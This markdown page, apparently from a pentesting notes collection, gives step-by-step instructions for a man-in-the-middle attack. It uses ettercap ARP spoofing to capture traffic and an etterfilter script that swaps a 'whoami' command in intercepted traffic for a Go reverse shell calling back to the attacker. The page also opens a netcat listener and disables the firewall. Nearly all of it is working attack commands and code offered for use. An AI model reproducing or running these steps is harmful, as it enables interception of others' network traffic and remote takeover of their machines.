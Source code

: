 ```yaml
---
title: MITM (Man in the Middle) Attack
description:
tags:
    - Network
    - Reverse Shell
    - WiFi
refs:
date: 2022-12-01
draft: false
---
```


## Establish MITM

### Using ARP Spoofing

In the target machine,

```sh
# -T: text only GUI
# -M: man-in-the-middle attack
# -w: write .pcap file
ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
ettercap -T -i eth1 -M arp -w /tmp/ettercap.pcap
```

In your local machine, transfer the ettercap's output file.

```sh
scp victim@<target-ip>:/tmp/ettercap.pcap .

# Investigate the file
wireshark ettercap.pcap
```

<br />

## Gain Access to a Shell

### Reverse Shell Via ARP Spoofing

In the target machine, create "whoami.ecf" using Golang.

```golang
// whoami.ecf
if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami")) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"<target-eth1-ip>:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &");
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell.  ######\n");
```

Compile the file using "etterfilter"

```sh
# Compile the file using etterfilter
etterfilter whoami.ecf -o whoami.ef
```

Open listener on background

```sh
nc -lvnp 6666 &
```

Disable Firewall for incoming connection

```sh
ufw allow in on eth1 from <target-ip> to <target-eth1-ip> port 6666 proto tcp
# or
ufw disable
```

Execute "ettercap" command.

```sh
# Run ettercap
# -F: Filter
ettercap -T -i eth1 -M arp -F whoami.ef
```

After a while, you should see "Connection received on \<target-ip>" in the outputs.  
If so, quit "ettercap" with "q" and switch the opening listener to foreground with "fg".  
Then you can interecat with the target shell.
